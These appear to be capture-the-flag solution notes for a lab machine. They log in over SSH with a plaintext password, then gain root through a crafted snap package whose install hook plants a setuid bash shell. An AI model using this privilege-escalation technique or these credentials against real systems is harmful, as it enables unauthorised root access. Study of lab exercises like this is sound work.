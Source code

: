 # Get User:
ssh brucetherealadmin@10.10.10.233<br>
password:booboo<br>
cat user.txt

# Get Root:
cd $(mktemp -d)<br>
mkdir -p meta/hooks<br>
printf '#!/bin/sh\ncp /bin/bash /home/brucetherealadmin/.w/rootbash && chmod +s /home/brucetherealadmin/.w/rootbash' > meta/hooks/install<br>
chmod +x meta/hooks/install<br>
fpm -n waza -s dir -t snap -a all meta<br>
cat /root/root.txt<br>

